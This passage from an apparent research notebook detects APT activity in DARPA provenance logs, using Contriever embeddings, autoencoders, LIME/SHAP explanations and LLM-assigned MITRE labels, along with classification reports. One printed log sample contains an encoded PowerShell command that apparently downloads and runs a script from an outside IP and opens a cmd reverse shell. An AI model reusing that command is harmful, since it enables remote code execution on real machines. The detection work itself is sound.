    print("\n" + "="*80)
    print("🌌 GENERATING T-SNE LATENT SPACE VISUALIZATION...")
    print("="*80)

    normal_df = df_text[df_text[label_col] == 0]
    normal_logs = normal_df[text_col].tolist()[:300] 

    perturbed_logs = []
    perturbation_labels = []

    # Use the top 3 SHAP drivers we just found
    for word, _ in word_impacts[:3]:
        clean_word = word.strip()
        perturbed_log = target_log.replace(clean_word, "")
        perturbed_logs.append(perturbed_log)
        perturbation_labels.append(f"Removed: '{clean_word}'")

    all_texts_to_embed = normal_logs + [target_log] + perturbed_logs
    print(f" -> Calculating Contriever embeddings for {len(all_texts_to_embed)} logs...")

    all_embeddings = []
    batch_size = 16
    pipeline.embedder.eval()

    for i in range(0, len(all_texts_to_embed), batch_size):
        batch_texts = all_texts_to_embed[i:i+batch_size]
        inputs = pipeline.tokenizer(batch_texts, padding=True, truncation=True, max_length=128, return_tensors="pt").to(DEVICE)
        
        with torch.inference_mode():
            outputs = pipeline.embedder(**inputs)
            token_embeddings = outputs.last_hidden_state
            attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
            sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
            sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
            embeddings = sum_embeddings / sum_mask
            embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
            all_embeddings.append(embeddings.cpu().numpy())
            
    all_embeddings = np.vstack(all_embeddings)

    print(" -> Running t-SNE dimensionality reduction (This takes a few seconds)...")
    perplexity = min(30, len(all_embeddings) - 1)
    tsne = TSNE(n_components=2, perplexity=perplexity, random_state=42, init='pca')
    tsne_results = tsne.fit_transform(all_embeddings)

    normal_coords = tsne_results[:len(normal_logs)]
    target_coord = tsne_results[len(normal_logs)]
    perturbed_coords = tsne_results[len(normal_logs)+1:]

    plt.figure(figsize=(12, 8))
    sns.set_style("whitegrid")

    plt.scatter(normal_coords[:, 0], normal_coords[:, 1], 
                c='lightgray', alpha=0.5, label='Normal Logs (Benign Cloud)', s=30)
    plt.scatter(target_coord[0], target_coord[1], 
                c='red', marker='*', s=350, edgecolor='black', label='Original Anomaly')

    colors = ['orange', 'purple', 'cyan']
    for i, (coord, label) in enumerate(zip(perturbed_coords, perturbation_labels)):
        plt.scatter(coord[0], coord[1], 
                    c=colors[i], marker='X', s=250, edgecolor='black', label=label)
        plt.annotate('', xy=(coord[0], coord[1]), xytext=(target_coord[0], target_coord[1]),
                     arrowprops=dict(arrowstyle="->", color=colors[i], lw=2.5, ls='--'))

    plt.title("Contriever Latent Space: Visualizing SHAP Perturbation Shifts", fontsize=15, fontweight='bold')
    plt.xlabel("t-SNE Dimension 1")
    plt.ylabel("t-SNE Dimension 2")
    plt.legend(loc='best', fontsize=11, frameon=True, shadow=True)

    plt.tight_layout()
    save_filename = "tsne_contriever_perturbation.png"
    plt.savefig(save_filename, dpi=300)
    print(f" -> ✅ Plot successfully saved as '{save_filename}'")
    plt.show()

print("\n" + "-"*80)
print("Pipeline Complete.")

##### SHAP and LIME without template words

Booting Final XAI Pipeline with Template Filtering for facebook/contriever on CUDA...
------------------------------------------------------------

🎯 DATASET ACQUIRED: 5DIR - ProcessAll
--------------------------------------------------------------------------------
Dataset Evaluation Metrics:
   AUC-ROC : 0.9583
   nDCG    : 0.3887


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



[Deep Analysis of Top-Ranked Anomaly]
Raw Log: Process has event bind and event check_file_attributes and event close and event connect and event create_object and event create_thread and event execute and event exit and event fcntl and event fork and executable \windows\system32\cmd.exe.1 and network 0 and network 208.75.117.5 and network 208.75.117.6 and network 80 and attribute powershell  -nop -ep bypass -encodedcommand kaboaguadwatae8aygbqaguaywb0acaatgblahqalgbxaguaygbdagwaaqblag4adaapac4azabvahcabgbsag8ayqbkagyaaqbsaguakaanaggadab0ahaaogavac8amgawadgalga3adualgaxadeanwauadualwb1ahaazabhahqazqauahaacwaxaccalaagaccaqwa6afwacabyag8azwbyageabqbkageadabhafwadqbwagqayqb0agualgbwahmamqanackaowagac4aiabdadoaxabcahaacgbvagcacgbhag0azabhahqayqbcafwadqbwagqayqb0agualgbwahmamqa7acaacabvahcazqbyagmayqb0acaalqbjacaamgawadgalga3adualgaxadeanwauadyaiaatahaaiaa4adaaiaataguaiabjag0azaauaguaeabl
Amplified Anomaly Score: 0.2744

[1] Running LIME...
   Top LIME Drivers (Template Filtered):
      ->




--------------------------------------------------------------------------------
Pipeline Complete.


In [3]:
import os
import pickle
import torch
import numpy as np
import shap
import requests
import torch.nn as nn
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.manifold import TSNE
from transformers import AutoTokenizer, AutoModel
from lime.lime_text import LimeTextExplainer
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
SPLIT_DIR = "final_train_test_split_contriever"  
MASTER_DATA_FILE = "all_data_with_sentences.pkl"  
MODEL_SAVE_DIR = "saved_weights_contriever"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

EMBEDDER_NAME = "facebook/contriever"
INPUT_DIM = 768    
MSE_AMPLIFIER = 1000.0  

# [NEW CRITICAL FIX]: The User's Template Filtering Idea
# We tell the XAI to ignore these structural "glue" words and look for the actual payloads
TEMPLATE_WORDS = {
    "process", "has", "event", "and", "executable", "network", "attribute", "ex"
}

print(f"Booting Final XAI Pipeline with Template Filtering for {EMBEDDER_NAME} on {DEVICE.upper()}...")
print("-" * 60)

# ==========================================
# 2. AUTOENCODER & PIPELINE
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray): text_list = text_list.tolist()
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 16 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            inputs = self.tokenizer(text_list[i:i+batch_size], padding=True, truncation=True, max_length=128, return_tensors="pt").to(self.device)
            with torch.inference_mode():
                outputs = self.embedder(**inputs)
                
                # Attention-Weighted Mean Pooling
                token_embeddings = outputs.last_hidden_state
                attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                embeddings = sum_embeddings / sum_mask
                
                embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                
                recon = self.ae_model(embeddings)
                errors = torch.mean((embeddings - recon) ** 2, dim=1) * MSE_AMPLIFIER
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=5)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return "Unknown"
    except:
        return "Unknown"

# ==========================================
# 3. EXECUTION
# ==========================================
try:
    with open(MASTER_DATA_FILE, "rb") as f:
        master_text_data = pickle.load(f)
except FileNotFoundError:
    print(f"[!] CRITICAL ERROR: Could not find {MASTER_DATA_FILE}")
    exit()

performers = [p for p in os.listdir(SPLIT_DIR) if os.path.isdir(os.path.join(SPLIT_DIR, p)) and not p.startswith('.')]
found_target = False
filtered_shap_drivers = [] # To save the actual threats for t-SNE

for performer in performers:
    test_dir = os.path.join(SPLIT_DIR, performer, "test")
    if not os.path.exists(test_dir): continue
        
    files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
    
    for file in files:
        context = file.replace('.pkl', '')
        weight_path = os.path.join(MODEL_SAVE_DIR, f"{performer}_{context}_Baseline.pth")
        
        if not os.path.exists(weight_path): continue
            
        with open(os.path.join(test_dir, file), 'rb') as f:
            pkg = pickle.load(f)
            X_test, y_test = pkg['X'], pkg['y']
            
        if len(np.unique(y_test)) < 2: continue 

        model = VanillaAE(INPUT_DIM).to(DEVICE)
        model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
        model.eval()
        
        tensor_test = torch.FloatTensor(X_test).to(DEVICE)
        with torch.no_grad():
            recon = model(tensor_test)
            all_errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
            
        auc = roc_auc_score(y_test, all_errors)
        try:
            ndcg = ndcg_score([y_test], [all_errors])
        except:
            ndcg = 0.0

        print("\n" + "="*80)
        print(f"🎯 DATASET ACQUIRED: {performer.upper()} - {context}")
        print("-" * 80)
        print(f"Dataset Evaluation Metrics:")
        print(f"   AUC-ROC : {auc:.4f}")
        print(f"   nDCG    : {ndcg:.4f}")
        print("="*80)

        try:
            df_text = master_text_data[performer][context]
            label_col = 'label' if 'label' in df_text.columns else 'y'
            text_col = 'sentence' if 'sentence' in df_text.columns else 'text'
            
            anomalies_df = df_text[df_text[label_col] == 1]
            if anomalies_df.empty: continue
            apt_logs_all = anomalies_df[text_col].tolist()
        except KeyError:
            continue

        pipeline = APT_Explainer(EMBEDDER_NAME, model, DEVICE)
        
        text_anomaly_scores = pipeline.predict_anomaly_score(apt_logs_all)
        worst_idx = np.argmax(text_anomaly_scores)
        target_log = apt_logs_all[worst_idx]
        target_score = text_anomaly_scores[worst_idx]
        
        print(f"\n[Deep Analysis of Top-Ranked Anomaly]")
        print(f"Raw Log: {target_log}")
        print(f"Amplified Anomaly Score: {target_score:.4f}\n")

        # --- LIME ---
        print("[1] Running LIME...")
        lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly']) 
        def lime_predict_wrapper(text_list):
            errs = pipeline.predict_anomaly_score(text_list)
            ptp = np.ptp(errs)
            probs = np.full_like(errs, 0.5) if ptp == 0 else 0.1 + 0.8 * ((errs - np.min(errs)) / ptp)
            return np.vstack((1 - probs, probs)).T
            
        lime_exp = lime_explainer.explain_instance(target_log, lime_predict_wrapper, num_features=20, num_samples=500)
        print("   Top LIME Drivers (Template Filtered):")
        
        lime_count = 0
        for word, weight in sorted(lime_exp.as_list(), key=lambda x: abs(x[1]), reverse=True):
            clean_word = word.strip().lower()
            # [USER'S LOGIC APPLIED HERE]: Ignore template words!
            if clean_word not in TEMPLATE_WORDS and len(clean_word) > 1:
                mitre = get_mitre_from_llm(target_log, clean_word)
                sign = "+" if weight > 0 else ""
                print(f"      -> '{clean_word}' (Impact: {sign}{weight:.4f}) | MITRE: {mitre}")
                lime_count += 1
                if lime_count == 5: break # Stop when we find the top 5 REAL threats

        # --- SHAP ---
        print("\n[2] Running SHAP...")
        official_mask = pipeline.tokenizer.mask_token or "[MASK]"
        masking_masker = shap.maskers.Text(pipeline.tokenizer, mask_token=official_mask)
        shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, masking_masker)
        shap_values = shap_explainer([target_log], max_evals=200) 
        
        words, impact_scores = shap_values.data[0], shap_values.values[0]
        word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
        
        print("   Top SHAP Drivers (Template Filtered):")
        shap_count = 0
        for word, score in word_impacts:
            clean_word = word.strip().lower()
            # [USER'S LOGIC APPLIED HERE]: Ignore template words!
            if clean_word not in TEMPLATE_WORDS and len(clean_word) > 1:
                mitre = get_mitre_from_llm(target_log, clean_word)
                sign = "+" if score > 0 else ""
                print(f"      -> '{clean_word}' (Impact: {sign}{score:.4f}) | MITRE: {mitre}")
                filtered_shap_drivers.append((clean_word, score))
                shap_count += 1
                if shap_count == 5: break

        found_target = True
        break 
        
    if found_target: break

# ==========================================
# 4. T-SNE VISUALIZATION
# ==========================================
if found_target and filtered_shap_drivers:
    print("\n" + "="*80)
    print("🌌 GENERATING T-SNE LATENT SPACE VISUALIZATION...")
    print("="*80)

    normal_df = df_text[df_text[label_col] == 0]
    normal_logs = normal_df[text_col].tolist()[:300] 

    perturbed_logs = []
    perturbation_labels = []

    # Use the filtered SHAP drivers (Actual threats, not template words)
    for word, _ in filtered_shap_drivers[:3]:
        clean_word = word.strip()
        perturbed_log = target_log.replace(clean_word, "", 1) # Replace only the threat, not the whole template
        perturbed_logs.append(perturbed_log)
        perturbation_labels.append(f"Removed: '{clean_word}'")

    all_texts_to_embed = normal_logs + [target_log] + perturbed_logs
    print(f" -> Calculating Contriever embeddings for {len(all_texts_to_embed)} logs...")

    all_embeddings = []
    batch_size = 16
    pipeline.embedder.eval()

    for i in range(0, len(all_texts_to_embed), batch_size):
        batch_texts = all_texts_to_embed[i:i+batch_size]
        inputs = pipeline.tokenizer(batch_texts, padding=True, truncation=True, max_length=128, return_tensors="pt").to(DEVICE)
        
        with torch.inference_mode():
            outputs = pipeline.embedder(**inputs)
            token_embeddings = outputs.last_hidden_state
            attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
            sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
            sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
            embeddings = sum_embeddings / sum_mask
            embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
            all_embeddings.append(embeddings.cpu().numpy())
            
    all_embeddings = np.vstack(all_embeddings)

    print(" -> Running t-SNE dimensionality reduction (This takes a few seconds)...")
    perplexity = min(30, len(all_embeddings) - 1)
    tsne = TSNE(n_components=2, perplexity=perplexity, random_state=42, init='pca')
    tsne_results = tsne.fit_transform(all_embeddings)

    normal_coords = tsne_results[:len(normal_logs)]
    target_coord = tsne_results[len(normal_logs)]
    perturbed_coords = tsne_results[len(normal_logs)+1:]

    plt.figure(figsize=(12, 8))
    sns.set_style("whitegrid")

    plt.scatter(normal_coords[:, 0], normal_coords[:, 1], 
                c='lightgray', alpha=0.5, label='Normal Logs (Benign Cloud)', s=30)
    plt.scatter(target_coord[0], target_coord[1], 
                c='red', marker='*', s=350, edgecolor='black', label='Original Anomaly')

    colors = ['orange', 'purple', 'cyan']
    for i, (coord, label) in enumerate(zip(perturbed_coords, perturbation_labels)):
        plt.scatter(coord[0], coord[1], 
                    c=colors[i], marker='X', s=250, edgecolor='black', label=label)
        plt.annotate('', xy=(coord[0], coord[1]), xytext=(target_coord[0], target_coord[1]),
                     arrowprops=dict(arrowstyle="->", color=colors[i], lw=2.5, ls='--'))

    plt.title("Contriever Latent Space: Visualizing Semantic Perturbation Shifts", fontsize=15, fontweight='bold')
    plt.xlabel("t-SNE Dimension 1")
    plt.ylabel("t-SNE Dimension 2")
    plt.legend(loc='best', fontsize=11, frameon=True, shadow=True)

    plt.tight_layout()
    save_filename = "tsne_contriever_semantic_perturbation.png"
    plt.savefig(save_filename, dpi=300)
    print(f" -> ✅ Plot successfully saved as '{save_filename}'")
    plt.show()

print("\n" + "-"*80)
print("Pipeline Complete.")

📦 Loading Master Dataset into memory...
🧠 Loading Contriever Model globally (this takes a moment)...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



🚀 EVALUATING: 5DIR
-> Generating Embeddings (8913 train, 2238 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\5dir_ProcessAll_Robust.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000271





Classification Report for 5DIR:
              precision    recall  f1-score   support

           0     0.9964    0.9946    0.9955      2229
           1     0.0769    0.1111    0.0909         9

    accuracy                         0.9911      2238
   macro avg     0.5367    0.5529    0.5432      2238
weighted avg     0.9927    0.9911    0.9919      2238


🚀 EVALUATING: CADETS
-> Generating Embeddings (179690 train, 44934 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\cadets_ProcessAll_Robust.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000026





Classification Report for CADETS:
              precision    recall  f1-score   support

           0     1.0000    0.9947    0.9973     44923
           1     0.0438    1.0000    0.0840        11

    accuracy                         0.9947     44934
   macro avg     0.5219    0.9973    0.5406     44934
weighted avg     0.9998    0.9947    0.9971     44934


🚀 EVALUATING: CLEARSCOPE
-> Generating Embeddings (9674 train, 2432 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\clearscope_ProcessAll_Robust.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000122





Classification Report for CLEARSCOPE:
              precision    recall  f1-score   support

           0     0.9988    0.9917    0.9952      2419
           1     0.3333    0.7692    0.4651        13

    accuracy                         0.9905      2432
   macro avg     0.6660    0.8805    0.7302      2432
weighted avg     0.9952    0.9905    0.9924      2432


🚀 EVALUATING: THEIA
-> Generating Embeddings (223415 train, 55954 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\theia_ProcessAll_Robust.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000013





Classification Report for THEIA:
              precision    recall  f1-score   support

           0     1.0000    0.9949    0.9974     55854
           1     0.2565    0.9900    0.4074       100

    accuracy                         0.9949     55954
   macro avg     0.6282    0.9924    0.7024     55954
weighted avg     0.9987    0.9949    0.9964     55954


🚀 EVALUATING: TRACE
-> Generating Embeddings (225645 train, 56458 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\trace_ProcessAll_Robust.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000024





Classification Report for TRACE:
              precision    recall  f1-score   support

           0     1.0000    0.9949    0.9974     56412
           1     0.1317    0.9565    0.2316        46

    accuracy                         0.9948     56458
   macro avg     0.5659    0.9757    0.6145     56458
weighted avg     0.9993    0.9948    0.9968     56458



In [8]:
import os
import torch
import torch.nn as nn
import numpy as np
import pandas as pd
import pickle
import matplotlib.pyplot as plt
import seaborn as sns
from transformers import AutoTokenizer, AutoModel
from sklearn.metrics import confusion_matrix, classification_report

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']
BASE_WEIGHTS_DIR = r"D:\Waleed FYP\saved_weights_contriever"

print("📦 Loading Master Dataset into memory...")
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

# ==========================================
# 1. REDEFINE ARCHITECTURE & HELPER FUNCTIONS
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

def get_reconstruction_errors(model, data_array):
    tensor = torch.FloatTensor(data_array).to(DEVICE)
    with torch.no_grad():
        reconstruction = model(tensor)
        mse = torch.mean((tensor - reconstruction) ** 2, dim=1).cpu().numpy()
    return mse

# ==========================================
# 2. INITIALIZE CONTRIEVER (ONCE GLOBALLY)
# ==========================================
print("🧠 Loading Contriever Model globally (this takes a moment)...")
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

def get_contriever_emb_batch(text_list, batch_size=32):
    all_embs = []
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        inputs = tokenizer(batch, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
        with torch.inference_mode():
            outputs = embedder(**inputs)
            attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
            sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
            sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
            emb = sum_embeddings / sum_mask
            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            all_embs.append(emb.cpu().numpy())
    return np.vstack(all_embs)

# ==========================================
# 3. MASTER EVALUATION LOOP
# ==========================================
for performer in PERFORMERS:
    print("\n" + "="*80)
    print(f"🚀 EVALUATING: {performer.upper()}")
    print("="*80)

    # -- A. Safety Checks --
    if performer not in master_text_data or "ProcessAll" not in master_text_data[performer]:
        print(f"[!] Data for {performer.upper()} not found in master dataset. Skipping.")
        continue
        
    weights_path = os.path.join(BASE_WEIGHTS_DIR, f"{performer}_ProcessAll_Robust.pth")
    if not os.path.exists(weights_path):
        print(f"[!] Weights not found at {weights_path}. Skipping.")
        continue

    # -- B. Load & Split Data --
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # -- C. Generate Embeddings --
    print(f"-> Generating Embeddings ({len(train_texts)} train, {len(test_texts)} test)...")
    X_train_emb = get_contriever_emb_batch(train_texts)
    X_test_emb = get_contriever_emb_batch(test_texts)

    # -- D. Load Weights --
    input_dim = 768 
    autoencoder = VanillaAE(input_dim).to(DEVICE)
    print(f"-> Loading weights from: {weights_path}")
    autoencoder.load_state_dict(torch.load(weights_path, map_location=DEVICE))
    autoencoder.eval() 

    # -- E. Calculate Errors & Apply Threshold --
    print("-> Calculating anomaly scores...")
    train_errors = get_reconstruction_errors(autoencoder, X_train_emb)
    test_errors = get_reconstruction_errors(autoencoder, X_test_emb)

    threshold = np.percentile(train_errors, 99.5)
    print(f"-> Calculated 99.5% Threshold: {threshold:.6f}")

    predictions = (test_errors > threshold).astype(int)

    # -- F. Plotting & Metrics --
    cm = confusion_matrix(test_labels, predictions)

    plt.figure(figsize=(6, 4))
    sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
                xticklabels=['Predicted Benign (0)', 'Predicted APT (1)'],
                yticklabels=['Actual Benign (0)', 'Actual APT (1)'])
    plt.title(f"Confusion Matrix: {performer.upper()} Contriever AE")
    plt.ylabel('True Label')
    plt.xlabel('Predicted Label')
    plt.show()

    print(f"\nClassification Report for {performer.upper()}:")
    print(classification_report(test_labels, predictions, digits=4))

📦 Loading Master Dataset into memory...
🧠 Loading Contriever Model globally (this takes a moment)...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



🚀 EVALUATING VANILLA AE: 5DIR
-> Generating Embeddings (8913 train, 2238 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\5dir_ProcessAll_Baseline.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000164





Classification Report for 5DIR (Vanilla):
              precision    recall  f1-score   support

           0     0.9964    0.9946    0.9955      2229
           1     0.0769    0.1111    0.0909         9

    accuracy                         0.9911      2238
   macro avg     0.5367    0.5529    0.5432      2238
weighted avg     0.9927    0.9911    0.9919      2238


🚀 EVALUATING VANILLA AE: CADETS
-> Generating Embeddings (179690 train, 44934 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\cadets_ProcessAll_Baseline.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000014


